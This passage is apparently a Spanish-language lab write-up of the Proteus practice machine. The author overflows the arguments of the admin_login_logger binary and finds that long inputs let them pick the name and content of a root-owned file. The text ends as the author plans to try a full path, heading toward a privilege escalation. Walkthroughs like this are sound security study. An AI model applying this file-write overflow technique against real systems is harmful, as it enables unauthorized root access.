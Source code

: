 Como la máquina donde ejecuto Kali es de 64 bits y *Proteus* es de 32 bits, no puedo ejecutar *admin_login_logger* directamente, así que lo hago en otra máquina virtual.

Compruebo que el contenido del fichero que se crea es:

```
$  ./admin_login_logger $(for i in {0..456}; do echo -n H; done)

Writing datafile ...
*** Error ...
======= Backtrace: =========
...

$ ls -l

...
-rw------- 1 root       root    463 Jul 29 23:19 H
...

$ cat H
HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH
HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH
HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH
HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH
HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH
HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH
```

En total, 457 letras **H**. Y el nombre del archivo, una letra **H**. Vamos a probar otra cosa:

```
$  ./admin_login_logger $(for i in {0..455}; do echo -n A; done)Hola

Writing datafile ...
*** Error ...
======= Backtrace: =========
...

$ ls -l

...
-rw------- 1 root       root    466 Jul 29 23:29 Hola
...

$ cat Hola
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHola
```

Parece que podemos elegir el nombre del archivo y el contenido. Vamos a ver si podemos poner una ruta completa.
